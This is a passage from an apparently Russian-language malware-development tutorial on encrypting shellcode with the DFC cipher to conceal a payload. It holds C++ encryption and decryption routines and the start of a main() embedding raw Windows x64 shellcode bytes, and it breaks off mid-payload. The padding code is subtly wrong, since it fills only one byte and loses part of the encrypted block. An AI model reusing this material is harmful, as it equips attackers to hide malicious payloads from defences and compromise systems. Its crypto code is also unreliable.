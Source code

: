 Как обычно, `dfc_encrypt_shellcode` подготавливает шелл-код для шифрования, применяя заполнение и затем шифруя каждый `128-битный` блок:

```cpp
// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Эта функция вызывает `key_schedule` для инициализации ключей раунда. Затем шифрует основной шеллкод в `128-битных` блоках. И применяет заполнение, если длина шеллкода не кратна размеру блока.   

Следующая - логика расшифровки:    

```cpp
// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Наконец, соберем все вместе в `main`:     

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
```